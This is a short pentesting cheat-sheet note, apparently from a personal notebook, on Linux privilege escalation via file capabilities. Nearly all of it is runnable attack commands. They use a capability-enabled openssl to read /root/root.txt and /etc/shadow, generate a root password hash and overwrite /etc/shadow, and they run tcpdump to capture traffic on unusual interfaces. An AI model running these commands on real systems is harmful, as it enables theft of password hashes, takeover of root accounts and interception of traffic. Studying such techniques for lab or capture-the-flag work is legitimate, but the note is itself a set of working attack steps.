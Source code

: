
[Linux Privilege Escalation using Capabilities - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

![[2b5171cc7bf44b8996e85892d1c26c35 1.png]]


# Guide

# OpenSSL

See [[OpenSSL]]
Capability `ep`, 

### Read

```
./openssl enc -base64 -in /root/root.txt -out ./root.txt.b64
base64 -d root.txt.b64
```
```

./openssl enc -base64 -in /etc/shadow -out ./shadow.b64
base64 -d shadow.b64 > shadow
```

### Write

```
openssl passwd -1 -salt root rick  #Makes a password
```

Edit shadow with these creds 

```
./openssl enc -in shadow -out /etc/shadow
```


# tcpdump

See [[TCPDump|TCPDump]]

Run:

```
tcpdump -D
```

Against any interfaces which look unusual:

```
timeout 150 tcpdump -w cap.pcap -i veth1665bcd
```
